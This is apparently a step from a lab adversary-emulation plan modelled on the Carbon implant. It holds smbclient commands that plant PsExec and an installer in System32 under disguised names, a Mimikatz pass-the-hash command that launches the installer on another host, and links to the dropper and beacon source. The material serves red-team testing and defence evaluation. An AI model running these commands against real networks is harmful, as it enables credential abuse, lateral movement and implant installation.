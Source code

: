 ```bash
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put PsExec.exe Windows\System32\wsqsp.exe'
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put carbon_installer_3.exe Windows\System32\wsqmanager.exe'
```

:arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Return to the File Explorer window in System32.

* :arrow_right: Minimize (do not close) the RDP window. Start a new RDP session
to `khabibulin (10.20.20.104)` as `adalwolfa`:

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

* Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process
is needed for Carbon comms lib DLL injection to occur.

:arrow_right: Minimize (do not close) the `khabibulin (10.20.20.104)` RDP
window and return to the RDP session to `bannik (10.20.10.9)`.

* From the existing elevated Windows Command Prompt, execute Mimikatz
Pass-the-Hash with PsExec to execute the 3rd Carbon installer on `khabibulin
(10.20.20.104)`:

```bat
C:\Windows\System32\terabox.exe "pr::d" "slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\Windows\System32\wsqsp.exe /sys:1 /prun:C:\Windows\System32\wsqmanager.exe" "quit"
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

### :moyai: Source Code

* [Mimikatz](../../Resources/Mimikatz)
* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
